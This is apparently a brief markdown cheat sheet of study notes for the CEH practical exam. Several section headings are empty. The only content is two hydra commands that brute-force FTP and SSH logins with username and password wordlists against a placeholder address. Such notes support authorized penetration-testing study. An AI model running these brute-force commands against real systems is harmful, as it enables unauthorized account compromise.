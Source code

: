 # CEH-Practical

## IP and service enumaration

## Service brute force
### FTP brut force
```bash
hydra -L userlist.txt -P passwordlist.txt ftp://IP-Address -V
```
### SSH brute force
```bash
hydra -L userlist.txt -P passwordlist.txt IP-Address ssh -V
```
## FTP folder
